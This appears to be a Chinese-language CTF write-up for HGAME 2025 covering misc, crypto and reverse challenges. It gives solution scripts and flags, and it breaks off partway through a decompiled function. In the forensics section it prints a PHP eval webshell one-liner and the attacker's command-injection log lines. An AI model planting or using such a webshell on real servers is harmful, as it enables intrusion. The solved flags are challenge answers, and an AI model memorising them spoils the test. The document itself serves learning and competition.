> *s3loy #000132 4700 pts*

## 签到

### 1.test nc

> Just test your NetCat.
>
> 尝试连接远程环境，并通过远程环境的shell获取flag。

```bash
❯ nc node1.hgame.vidar.club 31838
ls
bin
dev
etc
flag
home
lib
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
cat flag
hgame{Y0ur-Can_c0nN3Ct-To_THE-reM0te_ENv1RoNMEnT_To_Get_FLAg0}
```

> hgame{Y0ur-Can_c0nN3Ct-To_THE-reM0te_ENv1RoNMEnT_To_Get_FLAg0}

### 2.从这里开始的序章

ctrl+C   ctrl+shift+v

> hgame{Now-I-kn0w-how-to-subm1t-my-fl4gs!}

## Misc

### 1.Hakuya Want A Girl Friend

> 又到了一年一度的HGAME了，遵循前两年的传统，寻找（~~献祭~~）一个单身成员拿来出题🥵🥵。
>
> 前两年的都成了，希望今年也能成🙏。

~~好抽象的题目（x~~



txt下下来发现是16进制文件但是txt，遂转换。

```python
with open('hky.txt', 'r') as f:
    hex_data = f.read().strip()
binary_data = bytes.fromhex(hex_data)
with open('output_file', 'wb') as f:
    f.write(binary_data)
print("文件已成功合成")
```

打开压缩包发现需要密码，继续寻找信息，同时发现压缩包里flag.txt很小，怀疑还藏了东西。



发现最后有倒转的PNG，那大概压缩包后半段有其他内容。

```python
def reverse_png(input_file, output_file):
    with open(input_file, 'rb') as f:
        content = f.read()
        
    reversed_content = content[::-1]
    
    with open(output_file, 'wb') as f:
        f.write(reversed_content)

input_path = 'aphoto' 
output_path = 'fixed_output.png'
reverse_png(input_path, output_path)
```

然后看到照片。

用crc算出宽度为：576    高度为：779，于是修改。



`To_f1nd_th3_QQ`,一开始以为还得把人qq找到当密码用，整半天弄不出来，结果这个就是密码。

> hagme{h4kyu4_w4nt_gir1f3nd_+q_931290928}

### 2.Level 314 线性走廊中的双生实体

> **观测记录 Level 314 线性走廊中的双生实体**
>
> **实体编号：** Model.pt
> **危险等级：** Class Ψ（需特殊条件激活）
>
> **描述：** 在Level 314的线性走廊中发现了一个异常实体，表现为一个固化神经网络模块（Model.pt）。
>
> **观测协议：**
>
> 1. 使用标准加载协议激活实体：
>
>     ```python
>     entity = torch.jit.load('Model.pt')
>     ```
>
> 2. 准备一个形状为[█，██]的张量，确保其符合“█/█稳定态”条件。
>
> 3. 将张量输入实体以尝试激活信息：
>
>     ```python
>     output = entity(input_tensor)
>     ```
>
> **警告：**
>
> - 输入张量的现实稳定系数（atol）必须≤1e-4，否则可能导致信息层坍缩。
> - 避免使用随机张量，这可能导致虚假信号污染。
>
> **附录：**
>
> - 该实体似乎使用了相位偏移加密和时间错位加密。
> - 建议在M.E.G.监督下进行操作，以防止信息层的不稳定扩散。

刚看被吓到了，好炫酷的题干。

先从给的pt模型里面提取点信息看看

```python
import torch
entity = torch.jit.load('entity.pt')

# Print general info about the entity
print("Entity info:", entity)

# Print the code contained in the entity
print("\nEntity code:")
print(entity.code)

# Print the list of modules
print("\nModules:")
for name, module in entity.named_modules():
    print(f"- {name}")

# Print parameters and their shapes
print("\nParameters:")
for name, param in entity.named_parameters():
    print(f"- {name}: {param.shape}")
'''
Entity info: RecursiveScriptModule(original_name=MyModel
  (linear1): RecursiveScriptModule(original_name=Linear)
  (security): RecursiveScriptModule(original_name=SecurityLayer)
  (relu): RecursiveScriptModule(original_name=ReLU)
  (linear2): RecursiveScriptModule(original_name=Linear)
)

Entity code:
def forward(self,
    x: Tensor) -> Tensor:
  linear1 = self.linear1
  x0 = (linear1).forward(x, )
  security = self.security
  x1 = (security).forward(x0, )
  relu = self.relu
  x2 = (relu).forward(x1, )
  linear2 = self.linear2
  return (linear2).forward(x2, )
  
Modules:
- linear1
- security
- relu
- linear2

Parameters:

- linear1.weight: torch.Size([10, 10])
- linear1.bias: torch.Size([10])
- linear2.weight: torch.Size([1, 10])
- linear2.bias: torch.Size([1])
'''
```

看起来应该没有Module会叫`security`这样的东西，于是看看是啥玩意。

```python
print(dir(entity.security))
'''
['T_destination', '__annotations__', '__bool__', '__call__', '__class__', '__contains__', '__copy__', '__deepcopy__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattr__', '__getattribute__', '__getitem__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__jit_unused_properties__', '__le__', '__len__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__reduce_package__', '__repr__', '__setattr__', '__setstate__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_apply', '_backward_hooks', '_backward_pre_hooks', '_buffers', '_c', '_call_impl', '_compiled_call_impl', '_concrete_type', '_constants_set', '_construct', '_disable_script_meta', '_finalize_scriptmodule', '_forward_hooks', '_forward_hooks_always_called', '_forward_hooks_with_kwargs', '_forward_pre_hooks', '_forward_pre_hooks_with_kwargs', '_get_backward_hooks', '_get_backward_pre_hooks', '_get_name', '_initializing', '_is_full_backward_hook', '_load_from_state_dict', '_load_state_dict_post_hooks', '_load_state_dict_pre_hooks', '_maybe_warn_non_full_backward_hook', '_methods', '_modules', '_named_members', '_non_persistent_buffers_set', '_parameters', '_reconstruct', '_register_load_state_dict_pre_hook', '_register_state_dict_hook', '_replicate_for_data_parallel', '_save_for_lite_interpreter', '_save_to_buffer_for_lite_interpreter', '_save_to_state_dict', '_slow_forward', '_state_dict_hooks', '_state_dict_pre_hooks', '_version', '_wrapped_call_impl', 'add_module', 'apply', 'bfloat16', 'buffers', 'call_super_init', 'children', 'code', 'code_with_constants', 'compile', 'cpu', 'cuda', 'define', 'double', 'dump_patches', 'eval', 'extra_repr', 'float', 'forward', 'forward_magic_method', 'get_buffer', 'get_debug_state', 'get_extra_state', 'get_parameter', 'get_submodule', 'graph', 'graph_for', 'half', 'inlined_graph', 'ipu', 'load_state_dict', 'modules', 'mtia', 'named_buffers', 'named_children', 'named_modules', 'named_parameters', 'original_name', 'parameters', 'register_backward_hook', 'register_buffer', 'register_forward_hook', 'register_forward_pre_hook', 'register_full_backward_hook', 'register_full_backward_pre_hook', 'register_load_state_dict_post_hook', 'register_load_state_dict_pre_hook', 'register_module', 'register_parameter', 'register_state_dict_post_hook', 'register_state_dict_pre_hook', 'requires_grad_', 'save', 'save_to_buffer', 'set_extra_state', 'set_submodule', 'share_memory', 'state_dict', 'to', 'to_empty', 'train', 'type', 'xpu', 'zero_grad']
'''
```

有个很奇怪的code属性，输出一下看看：

```python
print(entity.security.code)
'''
def forward(self,
    x: Tensor) -> Tensor:
  _0 = torch.allclose(torch.mean(x), torch.tensor(0.31415000000000004), 1.0000000000000001e-05, 0.0001)
  if _0:
    _1 = annotate(List[str], [])
    flag = self.flag
    for _2 in range(torch.len(flag)):
      b = flag[_2]
      _3 = torch.append(_1, torch.chr(torch.__xor__(b, 85)))
    decoded = torch.join("", _1)
    print("Hidden:", decoded)
  else:
    pass
  if bool(torch.gt(torch.mean(x), 0.5)):
    _4 = annotate(List[str], [])
    fake_flag = self.fake_flag
    for _5 in range(torch.len(fake_flag)):
      c = fake_flag[_5]
      _6 = torch.append(_4, torch.chr(torch.sub(c, 3)))
    decoded0 = torch.join("", _4)
    print("Decoy:", decoded0)
  else:
    pass
  return x
'''
```

理论上应该需要构造一个1*10的张量，并且所有值都为π/10，这也解释了题干中提到的黑框框

但是flag是静态属性，所以直接输出就是了（

```python
import torch

# 加载模型
entity = torch.jit.load('entity.pt')

# 提取 security 层中的加密数据
security_layer = entity.security
flag = security_layer.flag     
fake_flag = security_layer.fake_flag

# 解密逻辑
hidden = ''.join([chr(c ^ 85) for c in flag])
decoy = ''.join([chr(c - 3) for c in fake_flag])

print("Hidden Flag (直接提取):", hidden)
print("Decoy Flag (直接提取):", decoy)

'''
Hidden Flag (直接提取): flag{s0_th1s_1s_r3al_s3cr3t}
Decoy Flag (直接提取): flag{fake_flag}
'''
```

不知道为什么flag是`flag`开头的

> flag{s0_th1s_1s_r3al_s3cr3t}

### 3.Computer cleaner

> 小明的虚拟机好像遭受了攻击，你可以帮助他清理一下他的电脑吗
>
> 1. 找到攻击者的webshell连接密码
> 2. 对攻击者进行简单溯源
> 3. 排查攻击者目的
>
> 虚拟机密码：vviiddaarr

使用Vmware Workstation 17 打开，

既然是webshell，那么就应该去看看web服务器那边的问题，因此去/var/www/html。

在log里面看到攻击者目的

```bash
121.41.34.25 - - [17/Jan/2025:12:02:00 +0000] "GET /uploads/shell.php?cmd=ls HTTP/1.1" 200 2048 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36"
121.41.34.25 - - [17/Jan/2025:12:02:05 +0000] "GET /uploads/shell.php?cmd=cat%20~/Documents/flag_part3 HTTP/1.1" 200 2048 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36"
```

在shell.php里面可看到`<?php @eval($_POST['hgame{y0u_']);?>`

简单溯源121.41.34.25



`hav3_cleaned_th3`

/Documents/flag_part3

`_c0mput3r!}`

> hgame{y0u_hav3_cleaned_th3_c0mput3r!}

### 4.Two wires

> [HOTP](https://en.wikipedia.org/wiki/HMAC-based_one-time_password)是一种一次性密码生成算法，通常具有两个可变参数：密钥`secret`与计数器`counter`，每生成一个密码后计数器便自增。
>
> 你获取了一个二手HOTP验证器，它实现了一个符合RFC 4226的HOTP算法。你发现该设备内安全模块的微控制器并未禁止闪存读出。因此，你第一时间就轻松得到了其内部固件与EEPROM的完整镜像。
>
> 为了研究其工作原理，在获取镜像后，你将微控制器与USB接口芯片的通信引线引出，接入逻辑分析仪（如下图），之后使用附带的上位机软件设置了一个新的HOTP密钥，同时观察通信波形。



> 根据提供的固件、EEPROM镜像与sigrok波形文件，分析并计算以下内容：
>
> - 在上位机交互中获取的HOTP，记为`X1`；
> - 使用上位机交互所设置的密钥与初始计数器，第10次（包括本次，即`counter+9`）所获取的HOTP，记为`X2`；
> - 上一任拥有者若继续使用该验证器，之后第32次与64次获取（即`counter+32`与`counter+64`时）将得到的HOTP，记为`Y1`和`Y2`；
>
> **Flag格式**：`hgame{X1_X2_Y1_Y2}`，其中每个HOTP以十进制表示，左补0至该验证器所使用的位数。例如，假设该验证器产生8位HOTP，则一个符合格式的flag为`hgame{00000000_00000001_00000022_00000333}`。



`capture.sr`是sigrok波形文件

`firmware.elf`是固件信息

`eeprom.bin`是eeprom镜像。

这题刚看的时候也是没一点思路，那只能先从题目要求开始研究。

首先从hotp看起





收集过足够信息之后先把生成hotp的脚本搓出来

```python
import struct
import hmac
import hashlib


def hotp(secret, counter):
    counter_bytes = struct.pack(">Q", counter)

    # 使用 HMAC-SHA1 来计算哈希
    hmac_hash = hmac.new(secret, counter_bytes, hashlib.sha1).digest()

    # 动态截断提取数字（标准 HOTP 动态截断过程）
    offset = hmac_hash[-1] & 0x0F  # 取哈希的最后一个字节的低四位
    code = struct.unpack(">I", hmac_hash[offset:offset+4])[0] & 0x7FFFFFFF  # 取出 4 字节并处理
    return code % 1000000  # 返回一个 6 位数的验证码

secret1 = ""
secret2 = ""

counter1 = 0
counter2 = 0

x1 = hotp(secret1, counter1)
x2 = hotp(secret1,counter1+9)

y1 = hotp(secret2, counter2+32)
y2 = hotp(secret2,counter2+64)

print(f"hgame{{{x1}_{x2}_{y1}_{y2}}}")
```

这是在还没分析其他东西的情况下先做的雏形。

那么现在的问题就是：

- 上位机的`secret`和`counter`
- 上一任拥有者的`secret`和`counter`

那还是一步一步走。

#### 1 上位机

那应该看`firmware.elf`

```bash
❯ binwalk -t -vv -e firmware.elf

MD5 Checksum:  7399bbea95a9dfb405db0df71d96344a
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
------------------------------------------------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, version 1 (SYSV)
```

使用IDA pro打开，

[image-20250209203754718](hgame-2024/image-20250209203754718.png)

不过ida不能反汇编。

于是用ghidra试试，发现可以反汇编但是有好多错误。

```c
/* i2cOnReceive(int) */

undefined2 i2cOnReceive(undefined2 param_1)

{
    undefined *unaff_SP;
    undefined *puVar1;
    char cVar2;
    undefined2 uVar3;
    undefined uVar4;
    ushort in_R25R24;
    undefined1 *puVar5;
    undefined *puVar6;

    cVar2 = '\0';
    *unaff_SP = (char)param_1;
    unaff_SP[-1] = (char)((ushort)param_1 >> 8);
    unaff_SP[-2] = (char)mem0x001c;
    unaff_SP[-3] = (char)((ushort)mem0x001c >> 8);
    puVar1 = unaff_SP + -4;
    if (next_action == cVar2) {
        if (0x10 < in_R25R24) {
            puVar5 = &msg_recv;
            do {
                uVar4 = 0xff;
                *(undefined2 *)(puVar1 + -1) = 0x58a;
                puVar1 = puVar1 + -2;
                uVar3 = TwoWire::read();
                puVar6 = puVar5 + 1;
                *puVar5 = uVar4;
                puVar5 = puVar6;
            } while ((byte)uVar3 != (byte)puVar6 ||
                     (char)((ushort)uVar3 >> 8) !=
                     (char)((char)((ushort)puVar6 >> 8) + ((byte)uVar3 < (byte)puVar6)));
            if (msg_recv == '\x01') {
                next_action = '\x03';
            }
            else if (msg_recv == '\0') {
                next_action = '\x02';
            }
            else if (msg_recv == '\x02') {
                next_action = '\x04';
            }
            else if (msg_recv == '\x03') {
                next_action = '\x05';
            }
        }
    }
    else {
        illegal_state = 1;
    }
    return CONCAT11(puVar1[3],puVar1[4]);
}

```

`i2cOnReceive`这个函数里面讲了

直接看`firmware.elf`好像看不出来多少东西，但是根据题干的提示,`capture.sr`应该就是设置了一个新的HOTP密钥的过程，那么理论上就可以从这里面提取出信息来。

下载了软件`PulseView`，打开`capture.sr`

~~ps：这个软件不支持中文路径，自己试试就知道了~~



打开之后看到这四条，不过根据前面图上只需要`D0`和`D1`，选择直接删除`D2`和`D3`



添加I^2^C解码器



这个`address read` 顾名思义，不是我们要的东西，所以看`data write`后面的东西



不过我不知道这大老远还有一个是什么，但是出于前面看起来太规整了，于是先收集了前面的数据



这么多数据我怎么用呢

第一组`01 6B 69 4F 7E 03 54 F6 C6 6A B5 00 00 00 00 00 00`

第二组`00 01 00 00 00 93 7E CD 0D 00 00 00 00 00 00 00 00`

第三组`02 1A 04 02 1B 1C 6D 7D 45 58 02 00 00 00 00 00 00`

第四组`03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00`

此处先停止了思考。

#### 2 上一任拥有者

分析firmware里面的`EepromData::tryUnserialize`

```c
/* EepromData::tryUnserialize(OtpState&) [clone .constprop.15] */

undefined2 EepromData::tryUnserialize(undefined2 param_1)

{
    ...省略...
    cVar10 = '\0';
    *unaff_SP = (char)in_R15R14;
    unaff_SP[-1] = (char)((ushort)in_R15R14 >> 8);
    unaff_SP[-2] = (char)param_1;
    unaff_SP[-3] = (char)((ushort)param_1 >> 8);
    unaff_SP[-4] = (char)mem0x001c;
    unaff_SP[-5] = (char)((ushort)mem0x001c >> 8);
    puVar2 = unaff_SP + -6;
    puVar16 = unaff_SP + -0x26;
    cVar5 = in_Hflg == '\x01';
    cVar6 = in_Tflg == '\x01';
    cVar7 = in_Iflg == '\x01';
    SREG = puVar2 < &UNK_mem_0020 | (puVar2 == &UNK_mem_0020) << 1 |
        ((short)(unaff_SP + -0x26) < 0) << 2 | (SBORROW2((short)puVar2,0x20) == true) << 3 |
        ((byte)((short)(unaff_SP + -0x26) < 0 ^ SBORROW2((short)puVar2,0x20)) == 1) << 4 |
        cVar5 << 5 | cVar6 << 6 | cVar7 << 7;
    sVar3 = CONCAT11((char)((ushort)(unaff_SP + -0x26) >> 8),(char)puVar2 + -0x20);
    pbVar11 = unaff_SP + -0x25;
    bVar9 = 0;
    do {
        *(undefined2 *)(sVar3 + -1) = 0x495;
        sVar3 = sVar3 + -2;
        uVar8 = eeprom_read_byte();
        pbVar1 = pbVar11 + 1;
        *pbVar11 = bVar9;
        pbVar11 = pbVar1;
        bVar9 = (char)uVar8 + 1;
    } while (bVar9 != 0x20 ||
             (char)((char)((ushort)uVar8 >> 8) - (((char)uVar8 != -1) + -1)) !=
             (char)(cVar10 + (bVar9 < 0x20)));
    bVar9 = puVar16[1];
    bVar12 = puVar16[2];
    bVar13 = puVar16[3];
    bVar4 = bVar12 < 0xba || (byte)(bVar12 + 0x46) < (bVar9 < 0xbe);
    if (((bVar9 == 0xbe && bVar12 == (byte)((bVar9 < 0xbe) + 0xbaU)) && bVar13 == (byte)(bVar4 - 2U))
        && puVar16[4] == (char)((bVar13 < 0xfe || (byte)(bVar13 + 2) < bVar4) + -0x36)) {
        cVar10 = '\x1c';
        puVar14 = &state;
        puVar2 = puVar16 + 5;
        do {
            puVar17 = puVar2 + 1;
            puVar15 = puVar14 + 1;
            *puVar14 = *puVar2;
            cVar10 = cVar10 + -1;
            puVar14 = puVar15;
            puVar2 = puVar17;
        } while (cVar10 != '\0');
    }
    SREG = (undefined *)0xffdf < puVar16 | (puVar16 == (undefined *)0xffe0) << 1 |
        ((short)(puVar16 + 0x20) < 0) << 2 | (SCARRY2((short)(puVar16 + 0x20),0x20) == true) << 3 |
        ((byte)((short)(puVar16 + 0x20) < 0 ^ SCARRY2((short)(puVar16 + 0x20),0x20)) == 1) << 4 |
        (cVar5 == '\x01') << 5 | (cVar6 == '\x01') << 6 | (cVar7 == '\x01') << 7;
    sVar3 = CONCAT11((char)((ushort)(puVar16 + 0x20) >> 8),(char)(puVar16 + 0x20));
    return CONCAT11(*(undefined *)(sVar3 + 3),*(undefined *)(sVar3 + 4));
}

```

这个`EepromData::tryUnserialize`很有用啊，询问ai得到它读取32了字节数据，然后判断了前4字节，把后面28字节取出来。那就是后面28位有用。

然后继续看`EepromData::serialize`

```c
/* EepromData::serialize(OtpState const&) [clone .constprop.14] */

undefined2 EepromData::serialize(undefined2 param_1)

{
    ...省略...
    cVar7 = '\0';
    *unaff_SP = in_R13;
    unaff_SP[-1] = (char)in_R15R14;
    unaff_SP[-2] = (char)((ushort)in_R15R14 >> 8);
    unaff_SP[-3] = (char)param_1;
    unaff_SP[-4] = (char)((ushort)param_1 >> 8);
    unaff_SP[-5] = (char)mem0x001c;
    unaff_SP[-6] = (char)((ushort)mem0x001c >> 8);
    puVar1 = unaff_SP + -7;
    puVar18 = unaff_SP + -0x27;
    cVar4 = in_Hflg == '\x01';
    cVar5 = in_Tflg == '\x01';
    cVar6 = in_Iflg == '\x01';
    SREG = puVar1 < &UNK_mem_0020 | (puVar1 == &UNK_mem_0020) << 1 |
        ((short)(unaff_SP + -0x27) < 0) << 2 | (SBORROW2((short)puVar1,0x20) == true) << 3 |
        ((byte)((short)(unaff_SP + -0x27) < 0 ^ SBORROW2((short)puVar1,0x20)) == 1) << 4 |
        cVar4 << 5 | cVar5 << 6 | cVar6 << 7;
    uVar13 = 0xba;
    uVar14 = 0xfe;
    uVar17 = 0xca;
    unaff_SP[-0x26] = 0xbe;
    puVar18[2] = uVar13;
    puVar18[3] = uVar14;
    puVar18[4] = uVar17;
    cVar11 = '\x1c';
    puVar15 = puVar18 + 5;
    puVar20 = &state;
    do {
        puVar19 = puVar20 + 1;
        puVar16 = puVar15 + 1;
        *puVar15 = *puVar20;
        cVar11 = cVar11 + -1;
        puVar15 = puVar16;
        puVar20 = puVar19;
    } while (cVar11 != '\0');
    bVar12 = 0;
    sVar3 = CONCAT11((char)((ushort)(unaff_SP + -0x27) >> 8),(char)puVar1 + -0x20);
    pbVar9 = puVar18 + 1;
    do {
        pbVar21 = pbVar9 + 1;
        bVar8 = *pbVar9;
        *(undefined2 *)(sVar3 + -1) = 0x847;
        sVar2 = sVar3 + -2;
        uVar10 = eeprom_read_byte();
        if (bVar8 != bVar12) {
            *(undefined2 *)(sVar3 + -3) = 0x84d;
            sVar2 = sVar3 + -4;
            uVar10 = eeprom_write_byte();
        }
        bVar12 = (char)uVar10 + 1;
        sVar3 = sVar2;
        pbVar9 = pbVar21;
    } while (bVar12 != 0x20 ||
             (char)((char)((ushort)uVar10 >> 8) - (((char)uVar10 != -1) + -1)) !=
             (char)(cVar7 + (bVar12 < 0x20)));
    SREG = (undefined *)0xffdf < puVar18 | (puVar18 == (undefined *)0xffe0) << 1 |
        ((short)(puVar18 + 0x20) < 0) << 2 | (SCARRY2((short)(puVar18 + 0x20),0x20) == true) << 3 |
        ((byte)((short)(puVar18 + 0x20) < 0 ^ SCARRY2((short)(puVar18 + 0x20),0x20)) == 1) << 4 |
        (cVar4 == '\x01') << 5 | (cVar5 == '\x01') << 6 | (cVar6 == '\x01') << 7;
    sVar3 = CONCAT11((char)((ushort)(puVar18 + 0x20) >> 8),(char)(puVar18 + 0x20));
    return CONCAT11(*(undefined *)(sVar3 + 3),*(undefined *)(sVar3 + 4));
}


```

可以看出来这28位分成了8位和20位，那根据sha1要求的20字节，不难得出前8位是`secret`,后20位是`counter`



这个刚刚好和eeprom里面有用的字节对应上了。

`92 05 00 00 17 CD 92 3A 32 1C 31 D4 94 54 85 42 44 DE 86 CC 4A B6 DD F4 35 42 90 52`

`counter2`=`92 05 00 00 17 CD 92 3A`

`secret2` =`32 1C 31 D4 94 54 85 42 44 DE 86 CC 4A B6 DD F4 35 42 90 52`

同时在这里对我有所启发。这边排序的时候先排的是`counter2`再排的`secret2`

那回到前面的数据，

第一组`01 6B 69 4F 7E 03 54 F6 C6 6A B5 00 00 00 00 00 00`

第二组`00 01 00 00 00 93 7E CD 0D 00 00 00 00 00 00 00 00`

第三组`02 1A 04 02 1B 1C 6D 7D 45 58 02 00 00 00 00 00 00`

第四组`03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00`

如果按`00`,`01`,`02`,`03`的顺序排序,把不需要的0去掉，好像能提取出来什么东西。

`01 00 00 00 93 7E CD 0D` `6B 69 4F 7E 03 54 F6 C6 6A B5 1A 04 02 1B 1C 6D 7D 45 58 02`

第一个是8字节，第二个20字节，刚刚好。

`secret1`=`6B 69 4F 7E 03 54 F6 C6 6A B5 1A 04 02 1B 1C 6D 7D 45 58 02`

`counter1`=`01 00 00 00 93 7E CD 0D`

所有数据都得到了。

#### 3 数据处理和脚本编写

根据脚本需要，`secret`和`counter`分别应该是Base32后的数据和10进制

因此需要处理一下。

我提前算好了    **I^2^C协议要求的是高位先行，所以这边十六进制用大端转小端再转十进制**

`counter1`=`01 00 00 00 93 7E CD 0D`=`0DCD7E9300000001`=`992224077072691201`

`counter2`=`92 05 00 00 17 CD 92 3A`=`3A92CD1700000592`=`4227023796868324242`

```python
import base64
import hmac
import hashlib
import struct

byte_sequence1 = bytes([0x6B, 0x69, 0x4F, 0x7E, 0x03, 0x54, 0xF6, 0xC6, 
                       0x6A, 0xB5, 0x1A, 0x04, 0x02, 0x1B, 0x1C, 0x6D, 
                       0x7D, 0x45, 0x58, 0x02])

byte_sequence2 = bytes([0x32, 0x1C, 0x31, 0xD4, 0x94, 0x54, 0x85, 0x42, 
                        0x44, 0xDE, 0x86, 0xCC, 0x4A, 0xB6, 0xDD, 0xF4, 
                        0x35, 0x42, 0x90, 0x52])

base32_secret1 = base64.b32encode(byte_sequence1).decode('utf-8')
base32_secret2 = base64.b32encode(byte_sequence2).decode('utf-8')

secret1 = base64.b32decode(base32_secret1.upper()) 
secret2 = base64.b32decode(base32_secret2.upper())

counter1 = 994590262544039937
counter2 = 4220661299467519378

# HOTP 计算函数
def hotp(secret, counter):
    # 计数器转换为字节（8字节，即64位）
    counter_bytes = struct.pack(">Q", counter)  # 用大端字节顺序将计数器打包

    # 使用 HMAC-SHA1 来计算哈希
    hmac_hash = hmac.new(secret, counter_bytes, hashlib.sha1).digest()

    # 动态截断提取数字（标准 HOTP 动态截断过程）
    offset = hmac_hash[-1] & 0x0F  # 取哈希的最后一个字节的低四位
    code = struct.unpack(">I", hmac_hash[offset:offset+4])[0] & 0x7FFFFFFF  # 取出 4 字节并处理
    return code % 1000000  # 返回一个 6 位数的验证码

x1 = hotp(secret1, counter1)
x2 = hotp(secret1,counter1+9)
y1 = hotp(secret2, counter2+32)
y2 = hotp(secret2,counter2+64)

print(f"hgame{{{x1}_{x2}_{y1}_{y2}}}")

'''
hgame{283942_633153_431432_187457}
'''
```

> hgame{283942_633153_431432_187457}

## Crypto

### 1.sieve

> 两种不同孔径的筛子，才能筛干净

```python
#sage
from Crypto.Util.number import bytes_to_long
from sympy import nextprime

FLAG = b'hgame{xxxxxxxxxxxxxxxxxxxxxx}'
m = bytes_to_long(FLAG)

def trick(k):
    if k > 1:
        mul = prod(range(1,k)) 
        if k - mul % k - 1 == 0:
            return euler_phi(k) + trick(k-1) + 1
        else:
            return euler_phi(k) + trick(k-1)
    else:
        return 1

e = 65537
p = q = nextprime(trick(e^2//6)<<128)
n = p * q
enc = pow(m,e,n)
print(f'{enc=}')
#enc=2449294097474714136530140099784592732766444481665278038069484466665506153967851063209402336025065476172617376546

```

听说大家都是ai训练大师

```python
from sage.all import *
from Crypto.Util.number import long_to_bytes
from sympy import nextprime  # 使用 sympy 的 nextprime

# 快速计算 Σ_{i=1}^n euler_phi(i)
def totient_sum(n):
    cache = {}
    def F(n):
        if n in cache:
            return cache[n]
        # 初始和为 n(n+1)//2
        res = n*(n+1) // 2
        i = 2
        while i <= n:
            j = n // (n // i)
            # 将区间 [i, j] 中所有 i 使得 n//i 值相同，一次性扣除
            res -= (j - i + 1) * F(n // i)
            i = j + 1
        cache[n] = res
        return res
    return F(n)

# trick(n) = totient_sum(n) + prime_pi(n)
def trick(n):
    # Sage 内置 prime_pi(n) 计算素数个数
    return totient_sum(n) + prime_pi(n)

e = 65537
s = e**2 // 6
v = trick(s)

# p 固定为：v 左移 128 位后取下一个素数
p = Integer(nextprime(v << 128))
# q 与 p 相同，因此 n = p^2
n = p * p

# RSA 的 φ(n)= p*(p-1)（因为 n = p^2）
phi_n = p * (p - 1)
d = inverse_mod(e, phi_n)

# 已知密文（来自加密时的输出）
enc = 2449294097474714136530140099784592732766444481665278038069484466665506153967851063209402336025065476172617376546

# 解密计算： m_dec = enc^d mod n
m_dec = power_mod(enc, d, n)
FLAG = long_to_bytes(int(m_dec))
print(FLAG)

'''
b'hgame{sieve_is_n0t_that_HArd}'
'''
```

## Reverse

### 1.Compress dot new

> 有时候逆向工程并不需要使用非常复杂的工具：一人、一桌、一电脑、一记事本、一数字帮手足矣。

```txt
def "into b" [] {let arg = $in;0..(( $arg|length ) - 1)|each {|i|$arg|bytes at $i..$i|into int}};def gss [] {match $in {{s:$s,w:$w} => [$s],{a:$a,b:$b,ss:$ss,w:$w} => $ss}};def gw [] {match $in {{s:$s,w:$w} => $w,{a:$a,b:$b,ss:$ss,w:$w} => $w}};def oi [v] {match $in {[] => [$v],[$h,..$t] => {if $v.w < $h.w {[$v,$h] ++ $t} else {[$h] ++ ($t|oi $v)}}}};def h [] {match $in {[] => [],[$n] => $n,[$f,$sn,..$r] => {$r|oi {a:$f,b:$sn,ss:(($f|gss) ++ ($sn|gss)),w:(($f|gw) + ($sn|gw))}|h}}};def gc [] {def t [nd, pth, cd] {match $nd {{s:$s,w:$_} => ($cd|append {s:$s,c:$pth}),{a:$a,b:$b,ss:$_,w:$_} => {t $b ($pth|append 1) (t $a ($pth|append 0) $cd)}}};t $in [] []|each {|e|{s:$e.s,cs:($e.c|each {|c|$c|into string}|str join)}}};def sk [] {match $in {null => null,{s:$s,w:$_} => {s:$s},{a:$a,b:$b,ss:$_,w:$_} => {a:($a|sk),b:($b|sk)}}};def bf [] {$in|into b|reduce -f (0..255|reduce -f [] {|i,a|$a|append 0}) {|b,a|$a|update $b (($a|get $b) + 1)}|enumerate|filter {|e|$e.item > 0}|each {|e|{s:$e.index,w:$e.item}}};def enc [cd] {$in|into b|each {|b|$cd|filter {|e|$e.s == $b}|first|get "cs"}|str join};def compress []: binary -> string {let t = $in|bf|h;[($t|sk|to json --raw), ($in|enc ($t|gc))]|str join "\n"}

# source compress.nu; open ./flag.txt --raw | into binary | compress | save enc.txt

```

[Nushell](https://www.nushell.sh/)  第一次见这种语言，好玩。

```python
import json

def decode_huffman(encoded_data, tree):
    result = bytearray()
    current = tree
    
    for bit in encoded_data:
        # 根据0/1选择路径
        current = current['a'] if bit == '0' else current['b']
        
        # 如果到达叶子节点
        if 's' in current:
            result.append(current['s'])
            current = tree
            
    return result

def main():

    with open('enc.txt', 'r') as f:
        tree = json.loads(f.readline())  # 第一行是JSON树
        encoded_data = f.readline().strip()  # 第二行是编码数据
    
    # 解码数据
    decoded = decode_huffman(encoded_data, tree)
    
    # 写入结果
    with open('flag.txt', 'wb') as f:
        f.write(decoded)

if __name__ == '__main__':
    main()
    
```

得到flag.txt

>hgame{Nu-Shell-scr1pts-ar3-1nt3r3st1ng-t0-wr1te-&-use!}

后面的`Lorem ipsum dolor sit amet, consectetur adipiscing elit.
Nulla nec ligula neque. Etiam et viverra nunc, vel bibendum risus. Donec.`

不知道是什么


### 2.Turtle

> addr3s5今天从花鸟市场买了一只小乌龟，但是这只小乌龟很怕生，一直缩在龟壳里，喂它食物它也不吃，addr3s5很是烦恼，你能帮帮他吗

乌龟嘛，乌龟有啥，有壳呗，有的兄弟，有的

所以要脱壳。

[upx手动脱壳学习笔记](https://blog.csdn.net/sirrior/article/details/134597589 )

我参考的是这篇博客。

把脱壳过的exe丢到IDA里面去看看，



逮着`ctrl+X`打开

```c
__int64 sub_401876()
{
    _BYTE v1[256]; // [rsp+20h] [rbp-60h] BYREF
    _BYTE v2[48]; // [rsp+120h] [rbp+A0h] BYREF
    char v3[46]; // [rsp+150h] [rbp+D0h] BYREF
    _BYTE v4[5]; // [rsp+17Eh] [rbp+FEh] BYREF
    _BYTE v5[2]; // [rsp+183h] [rbp+103h] BYREF
    char v6[8]; // [rsp+185h] [rbp+105h] BYREF
